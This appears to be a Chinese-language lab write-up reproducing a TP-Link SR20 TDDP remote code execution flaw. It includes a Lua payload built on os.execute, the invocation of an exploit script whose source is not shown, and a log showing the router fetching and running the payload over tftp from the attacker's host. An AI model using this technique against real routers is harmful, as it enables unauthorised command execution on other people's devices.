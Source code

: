 启动tddp 服务

```shell
root@ubuntu:/home/toor/test/pocs/ssv97887/_tpra_sr20v1_us-up-ver1-2-1-P522_20180518-rel77140_2018-05-21_08.42.04.bin.extracted/squashfs-root#
qemu-arm -L . ./usr/bin/tddp 
[tddp_taskEntry():151] tddp task start
```

启动 atftp 服务

```
 atftpd.service - LSB: Launch atftpd server
   Loaded: loaded (/etc/init.d/atftpd; generated)
   Active: active (running) since Wed 2019-04-17 00:52:50 PDT; 24s ago
     Docs: man:systemd-sysv-generator(8)
  Process: 24907 ExecStop=/etc/init.d/atftpd stop (code=exited, status=0/SUCCESS
  Process: 24895 ExecReload=/etc/init.d/atftpd reload (code=exited, status=0/SUC
  Process: 24914 ExecStart=/etc/init.d/atftpd start (code=exited, status=0/SUCCE
    Tasks: 1 (limit: 4632)
   CGroup: /system.slice/atftpd.service
           └─24921 /usr/sbin/atftpd --daemon --tftpd-timeout 300 --retry-timeout

Apr 17 00:52:50 ubuntu atftpd[24907]: Stopping Advanced TFTP server: atftpd.
Apr 17 00:52:50 ubuntu systemd[1]: Stopped LSB: Launch atftpd server.
Apr 17 00:52:50 ubuntu systemd[1]: Starting LSB: Launch atftpd server...
Apr 17 00:52:50 ubuntu atftpd[24920]: Advanced Trivial FTP server started (0.7)
Apr 17 00:52:50 ubuntu atftpd[24914]: Starting Advanced TFTP server: atftpd.
Apr 17 00:52:50 ubuntu systemd[1]: Started LSB: Launch atftpd server.
```

POC利用：

payload 准备：

```
在 atftp 的根目录 /tftpboot 下写入 payload 文件
payload 文件内容为：

function config_test(config)
  os.execute("echo tplink poc test ")
end
```

POC利用

```
python3 testpoc.py 192.168.239.138 /payload   # 目标 , 指定atftpd 上的利用payload名
```

使用脚本攻击进行攻击后，tddp 出现

```
[tddp_taskEntry():151] tddp task start
bad magic number
Invalid command 'zlib'; type "help" for a list.
callback username
callback password
[tddp_parserVerOneOpt():692] TDDPv1: receive CMD_FTEST_CONFIG
[tddp_execCmd():72] cmd: cd /tmp;tftp -gr /payload 192.168.239.138 & 
usage: tftp host-name [port]   
tftp> tplink poc test  《--------------- 攻击成功

```
